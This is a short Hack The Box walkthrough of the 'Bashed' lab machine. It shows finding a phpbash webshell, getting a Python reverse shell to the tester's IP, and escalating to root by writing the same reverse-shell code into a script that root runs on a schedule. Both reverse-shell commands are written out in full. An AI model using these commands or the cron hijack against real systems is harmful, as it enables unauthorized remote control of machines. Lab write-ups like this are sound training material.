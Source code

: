 Bahed - HTB Writeup 

![top](images/bashed/top-bash.png)

The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.   
The nmap scan revealed the only port 80 with no ssh which is unsusual.  
I opened the site at http and creator of the site has disclosed the information that he incorporated phpbash on this site.  
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.   

![fuzz](images/bashed/fuzzz-bash.png)
 
![bash](images/bashed/phpbash-bash.png)


Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.  
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.    
  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  

After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.

![scriptm](images/bashed/scriptmanager-bash.png)

So i became one.

![sudo](images/bashed/user-bash.png)

Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.
So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a new session running as root on second listening port.

![root](images/bashed/root-bash.png)

echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py
